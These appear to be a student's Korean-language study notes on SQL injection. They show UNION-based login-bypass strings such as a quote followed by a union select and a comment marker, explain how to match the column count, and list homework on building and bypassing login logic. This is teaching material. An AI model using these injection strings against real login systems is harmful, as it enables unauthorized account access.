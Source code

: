 select ~~~~ union select ~~~~

select * from member union select '1','2','3','4'

라고 입력하면 


normaltic' union select 'nomaltic','qqqq','1111','2222' #


x' union select 'normaltic','qqqq','1111','2222' #


union은 임시로 주입하는 것. 영구적으로 수정하는 것이 아님.

## union을 사용할 때는 컬럼을 알아야 함.

컬럼이 몇개인지 모르기 때문에, 개수를 맞출 때까지 찍어서 맞춰야 함.

normaltic' union select 'normaltic','normaltic','..............



# 정리

sql injection

로그인할 때는 우리가 만든 정보로 로그인을 한다.(unoion)



# 과제
(1) SQL Injection 로그인 우회하는 방법
- 식별&인증 동시
- 식별&인증 분리
 
(2) 로그인 로직 개발! 가능한 모든 케이스   
login1 -> 식별인증 동시   
login2 -> 식별인증 분리   
login3 -> 해시처리?   
-> 그걸 우회하는 거 연구 (블로그)

(3) 회원가입 기능 구현 
- id 중복 검사 기능 
- 회원가입은 되어야 함.

(4) 문제풀이
(1),(2),(3) 다 하고 sql injection 문제풀이 해라. 